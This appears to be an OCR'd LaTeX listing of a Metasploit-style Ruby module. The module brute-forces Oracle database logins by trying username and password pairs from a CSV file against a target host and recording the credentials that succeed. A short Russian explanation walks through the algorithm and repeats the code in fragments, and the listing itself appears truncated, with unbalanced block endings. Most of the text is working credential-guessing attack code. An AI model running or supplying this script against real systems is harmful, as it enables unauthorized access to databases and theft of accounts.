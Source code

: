 \documentclass[10pt,a4paper]{report}
\begin{document}
\begin{lstlisting}
print_status("Starting brute force on 
#{datastore['RHOST']}:#{datastore['RPORT']}...")

fd = CSV.foreach(list) do |brute|
datastore['DBUSER'] = brute[2].downcase
datastore['DBPASS'] = brute[3].downcase

begin
connect
disconnect
rescue ::OCIError => e
if e.to_s =~ /^ORA-12170:\s/
print_error("#{datastore['RHOST']}:#{datastore['RPORT']} Connection timed out")
break
end
else
report_cred(
ip: datastore['RHOST'],
port: datastore['RPORT'],
service_name: 'oracle',
user: "#{datastore['SID']}/#{datastore['DBUSER']}",
password: datastore['DBPASS']
)
print_status("Found user/pass of: #{datastore['DBUSER']}/#{datastore['DBPASS']} 
on #{datastore['RHOST']} with sid #{datastore['SID']}")
end
end
end
end
			\end{lstlisting}
			
			Скрипт работает по следующему алгоритму:
			\begin{enumerate}
				\item Получаем список тестовых логинов и паролей для БД.
				\begin{lstlisting}
list = datastore['CSVFILE']
				\end{lstlisting}
				
				\item В цикле пытаемся подключиться к БД.
				Если попытка удалась, то выводим информацию.
				\begin{lstlisting}
fd = CSV.foreach(list) do |brute|
datastore['DBUSER'] = brute[2].downcase
datastore['DBPASS'] = brute[3].downcase

begin
connect
disconnect
rescue ::OCIError => e
if e.to_s =~ /^ORA-12170:\s/
print_error("#{datastore['RHOST']}:#{datastore['RPORT']} Connection timed out")
break
end
else
report_cred(
ip: datastore['RHOST'],
port: datastore['RPORT'],
service_name: 'oracle',
user: "#{datastore['SID']}/#{datastore['DBUSER']}",
password: datastore['DBPASS']
)
print_status("Found user/pass of: #{datastore['DBUSER']}/#{datastore['DBPASS']} 
on #{datastore['RHOST']} with sid #{datastore['SID']}")
end
end
				\end{lstlisting}
			\end{enumerate}
\end{document}
